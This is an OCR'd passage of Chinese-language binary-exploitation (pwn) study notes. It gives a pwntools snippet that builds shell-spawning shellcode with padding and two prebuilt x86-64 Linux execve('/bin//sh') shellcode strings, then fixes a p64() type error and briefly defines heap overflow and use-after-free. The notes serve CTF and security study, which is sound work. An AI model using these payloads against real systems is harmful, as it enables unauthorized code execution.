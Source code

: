 

```python
from pwn import *
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
shellcode.ljust(112, b'A')  
```



如果不用库自带的shellcode，可以有一些编译好的shellcode



64位Linux的24Byte的ShellCode：

```
shellcode_x64 ="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```



64位Linux的23Byte的shellcode：

```
shellcode_x64 ="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```







### 报错问题：

#### 1.使用p64()时报错：TypeError: can only concatenate str (not “bytes“) to str

```python
p64(0x00400596).decode('unicode_escape')
```







## 堆

栈、堆、内核

堆溢出（Heap Overflow）是指在程序执行过程中，向堆（Heap）区域写入超出其分配内存边界的数据，从而覆盖了相邻的内存空间。这可能导致程序崩溃、执行意外行为或者被攻击者利用。



而UAF是指释放后引用（Use-After-Free）漏洞，它是一种常见的内存安全问题。当程序释放了一个堆上的内存块，但后续仍然继续使用该已释放的内存块，就会产生UAF漏洞。攻击者可以利用UAF漏洞来执行恶意代码，读取敏感数据，控制程序的执行流程等。



# 重点基础知识
